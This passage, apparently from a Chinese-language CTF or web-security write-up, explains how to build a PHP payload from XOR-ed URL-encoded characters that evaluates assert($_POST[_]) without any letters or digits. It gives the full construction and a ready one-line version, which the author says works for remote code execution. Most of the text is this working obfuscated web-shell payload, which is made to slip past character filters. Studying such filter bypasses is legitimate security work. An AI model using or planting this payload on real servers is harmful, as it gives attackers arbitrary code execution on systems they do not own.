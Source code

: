 然后我们就可以按照这个方法进行拼接了，我们的目标字符串是assert($_POST[_])，其实很简单，我们需要拼接的字母只有九个而已，拼接结果如下，因为很多都是不可见的字符，所以说我就先url编码了一下（url编码就是它的16进制编码前面加个%哈）：

```php
a:'%40'^'%21' ; s:'%7B'^'%08' ; s:'%7B'^'%08' ; e:'%7B'^'%1E' ; r:'%7E'^'%0C' ; t:'%7C'^'%08'
P:'%0D'^'%5D' ; O:'%0F'^'%40' ; S:'%0E'^'%5D' ; T:'%0B'^'%5F'
    拼接起来：
$_=('%40'^'%21').('%7B'^'%08').('%7B'^'%08').('%7B'^'%1E').('%7E'^'%0C').('%7C'^'%08');  // $_=assert
$__='_'.('%0D'^'%5D').('%0F'^'%40').('%0E'^'%5D').('%0B'^'%5F');  // $__=_POST
$___=$$__; //$___=$_POST
$_($___[_]);//assert($_POST[_]);
放到一排就是：
$_=('%40'^'%21').('%7B'^'%08').('%7B'^'%08').('%7B'^'%1E').('%7E'^'%0C').('%7C'^'%08');$__='_'.('%0D'^'%5D').('%0F'^'%40').('%0E'^'%5D').('%0B'^'%5F');$___=$$__;$_($___[_]);
```

以上是我自己构造的，经检验没有问题，构造结果可能会有很多种，但方法都是一样的，这样就可以成功进行rce了。

![img](assets/202304161656061.png)

![img](assets/202304161656784.png)
